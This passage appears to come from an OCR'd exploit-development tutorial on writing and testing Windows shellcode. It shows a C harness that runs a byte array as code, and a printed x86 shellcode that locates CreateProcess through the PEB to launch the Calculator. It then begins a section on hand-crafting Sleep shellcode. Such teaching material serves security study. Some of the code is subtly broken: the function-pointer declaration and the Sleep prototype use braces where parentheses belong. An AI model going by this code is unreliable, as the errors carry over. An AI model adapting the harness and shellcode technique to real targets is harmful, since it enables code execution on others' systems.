 This simplest way is to use the following program:
```
char code[] = "shellcode will go here!";
int main(int argc, char **argv)
{
  int (*func){};
  func = (int (*)()) code;
  (int)(*func)();
}
```

Once we compile and run the program, if it executes as we planned, it means that the shellcode works fine.

Here is a test. If you remember in the previous module, we used a shellcode that was intended to run the Windows Calculator.

Here is the shellcode:
```
"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
"\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
"\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
"\x57\x78\x01\xc2\x8b\x7a\x20\x01"
"\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
"\x45\x81\x3e\x43\x72\x65\x61\x75"
"\xf2\x81\x7e\x08\x6f\x63\x65\x73"
"\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
"\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
"\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
"\xb1\xff\x53\xe2\xfd\x68\x63\x61"
"\x6c\x63\x89\xe2\x52\x52\x53\x53"
"\x53\x53\x53\x53\x52\x53\xff\xd7"
```

Before actually using the shellcode on the target system, we would like to verify that it works. To do so, we need to copy the shellcode into the previous C program.

After that, we need to compile and run the updated program to verify that it works.

It is not important that the program crashes because we can see that the Calculator appears, and it proves that the shellcode works.

This is a very simple C program that will help us test the results of our shellcode writing skills.

__________________________
## 5. Creating our First Shellcode
Although there are many different tools and frameworks that we can use to generate shellcodes automatically, first we will show you how to manually create a shellcode from scratch.

- **Shellcode Goal** <br>
Create a shellcode that will cause the thread to sleep for five seconds
- **Function Needed** <br>
The sleep functionality is provided by the function **Sleep** in *Kernel32.dll* and has the following [definition](https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-sleep):
```
VOID WINAPI Sleep{
  __in DWORD dwMilliseconds
};
```
